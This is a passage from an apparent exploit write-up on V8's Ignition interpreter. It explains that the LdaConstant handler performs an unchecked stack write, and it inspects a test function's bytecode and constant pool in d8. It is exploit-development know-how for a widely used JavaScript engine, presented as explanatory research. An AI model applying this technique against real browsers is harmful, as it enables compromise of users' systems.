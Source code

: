 As we can see from the disassembled code of `Builtins_LdaConstantHandler`, the
`StoreRegisterAtOperandIndex(constant, 0)` directly translates to a RBP-relative
write to the stack using the `constant` taken from the bytecode constant pool.
No bound check is performed, therefore if we can control the index operand of
`LdaConstant` we can control where to write on the stack. Furthermore, we can
also control *what* to write (the `constant` itself).

Let's create a simple JS function to test this. The naïve check in
`BytecodeArrayBuilder::GetConstantPoolEntry()` prevents us from directly writing
`1337.1337` in the body of the function: it would go in the constant pool and
its value would change. However we can just calculate it with simple math.

```js
// x.js
function f(x) {
    let a = 1336.1337 + x;
    g = 69.420;
}
```

If we run `./d8 --allow-natives-syntax --shell x.js` we can inspect the JS
objects from the `d8` shell. First, call `f()` once to compile it to Ignition
bytecode, then inspect it:

```none
d8> f(0)
undefined
d8> %DebugPrint(f)
DebugPrint: 0x87b00190d3d: [Function] in OldSpace
 - map: 0x087b00180931 <Map[32](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x087b00180859 <JSFunction (sfi = 0x87b00141879)>
 [... a bunch of stuff ...]
 - code: 0x087b00016fe1 <Code BUILTIN InterpreterEntryTrampoline>
 - dispatch_handle: 2419200
 - interpreted
 - bytecode: 0x1f9d000407a1 <BytecodeArray[16]>
 - source code: (x) {
        let a = 1336.1337 + x;
        g = 69.420;
}
 - properties: 0x087b00000775 <FixedArray[0]>
 [... a bunch more stuff ...]
```

What we are really interested in is the `bytecode` that was just created:

```none
d8> %DebugPrintPtr(0x1f9d000407a1)
DebugPrint: 0x1f9d000407a1: [BytecodeArray]
 - map: 0x087b00000971 <Map(BYTECODE_ARRAY_TYPE)>
Parameter count 2
Register count 2
Frame size 16
         0x1f9d000407c8 @    0 : 13 00             LdaConstant [0]
         0x1f9d000407ca @    2 : c9                Star1
         0x1f9d000407cb @    3 : 0b 03             Ldar a0
         0x1f9d000407cd @    5 : 3b f8 00          Add r1, [0]
         0x1f9d000407d0 @    8 : ca                Star0
         0x1f9d000407d1 @    9 : 13 01             LdaConstant [1]
         0x1f9d000407d3 @   11 : 23 02 01          StaGlobal [2], [1]
         0x1f9d000407d6 @   14 : 0e                LdaUndefined
         0x1f9d000407d7 @   15 : af                Return
Constant pool (size = 3)
0x1f9d0004078d: [TrustedFixedArray]
 - map: 0x087b000005e5 <Map(TRUSTED_FIXED_ARRAY_TYPE)>
 - length: 3
           0: 0x087b00191a59 <HeapNumber 1336.13>
```

[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg